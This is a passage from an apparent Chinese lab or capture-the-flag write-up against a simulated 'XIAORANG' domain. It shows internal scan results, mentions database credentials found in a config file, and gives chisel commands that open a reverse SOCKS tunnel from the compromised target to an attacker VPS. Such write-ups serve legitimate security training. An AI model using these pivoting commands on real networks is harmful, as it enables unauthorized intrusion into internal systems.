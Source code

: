 ```plain
[*] NetBios 172.22.60.42    XIAORANG\FILESERVER           
[*] NetInfo 
[*]172.22.60.15
   [->]PC1
   [->]172.22.60.15
   [->]169.254.39.51
[*] NetBios 172.22.60.15    XIAORANG\PC1                  
[*] NetBios 172.22.60.8     [+] DC:XIAORANG\DC             
[*] NetInfo 
[*]172.22.60.8
   [->]DC
   [->]172.22.60.8
   [->]169.254.222.191
[*] WebTitle http://172.22.60.52       code:200 len:5867   title:霄壤社区
```

同时发现一个 Config 文件，里面有数据库账密

## 代理搭建

```plain
VPS:./chisel server -p 7000 --reverse
靶机:./chisel client VPS:7000 R:0.0.0.0:7001:socks
```

## 数据库连接

在我们登录网页后台时就出现用户名，且以`xiaorang.lab`结尾，说明可能有一部分是域用户

[![](assets/1706846898-dd0284a2a33369f4e6817b3212aea0db.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214008-3f834f40-c03e-1.png)

但是不太容易导出，我们正好看到了数据库配置文件
